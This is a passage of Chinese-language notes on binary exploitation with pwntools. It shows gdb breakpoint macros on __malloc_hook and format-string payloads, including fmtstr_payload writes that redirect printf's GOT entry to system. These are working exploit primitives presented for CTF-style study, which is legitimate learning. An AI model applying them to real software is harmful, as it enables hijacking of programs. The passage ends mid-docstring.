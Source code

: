 ```python
#这就是一个很猛的调试指令了

"""
break *{}
commands
  # 查看栈信息
  info stack
  # 继续执行
  continue
end
#这是一组指令，表示当断点触发时，会立刻进行这些指令，这个continue就是指程序继续进行的意思，相当于帮你补了个c命令。
#整个调试指令宏观上就是
break *{}
continue
#当触点没有被引发时，gdb只是挂载在上面而已，只有当触发时，才会进入调试阶段。
"""

#但实际上咱们由于有插件，而且是汇编调试，用不到这么多，所以我们用的话就这么就好了
gdb.attach(sh, '''
break *{}
continue
'''.format(hex(__malloc_hook_addr)))

#完了还有一招比较狠的方法：

# *__malloc_hook_addr = 0xDeadBeef
gdb.attach(sh, '''
break *{}
continue
'''.format(hex(__malloc_hook_addr)))

#这样的话程序在执行到__malloc_hook时就会崩溃，但是由于断点的存在，gdb不会退出，你还是可以查看到，在hook被执行的一瞬间所有的内存信息。
```



##### ⑦. 格式化字符串相关
```python
#格式化字符串

payload_1="%41$paaa"

payload=b'%100c%10$hhnaaaa'+p64(bi_jiao_addr)

payload_3=fmtstr_payload(6,{printf_got:system_addr})

payload_3=fmtstr_payload(6,{printf_got:system_addr,printf_got_1:system_addr_1})

#偏移量其实就是说你的第几个%？$hhn是老几！

"""

fmtstr_payload(offset, writes, numbwritten=0, write_size=‘byte’)

第一个参数表示格式化字符串的偏移；

第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成{printfGOT:systemAddress}

第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；

第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。

fmtstr_payload函数返回的就是payload

```